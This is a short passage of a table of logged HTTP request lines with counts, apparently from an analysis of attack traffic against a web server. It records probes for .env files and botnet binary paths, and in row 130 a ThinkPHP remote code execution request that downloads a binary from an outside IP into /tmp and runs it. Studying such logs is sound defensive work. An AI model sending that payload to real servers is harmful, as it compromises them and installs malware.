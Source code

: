| 125 |                     3 | GET /x0ox0ox0oxDefault/z0r0.arm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 126 |                     3 | GET /x0ox0ox0oxDefault/z0r0.x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 127 |                     3 | GET /include/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 128 |                     3 | GET /nsharm7 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 129 |                     3 | GET /nshkppc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 130 |                     3 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                          |
| 131 |                     2 | GET /script HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 132 |                     2 | GET /x0ox0ox0oxDefault/z0r0.arm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 133 |                     2 | GET /s/arm7 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |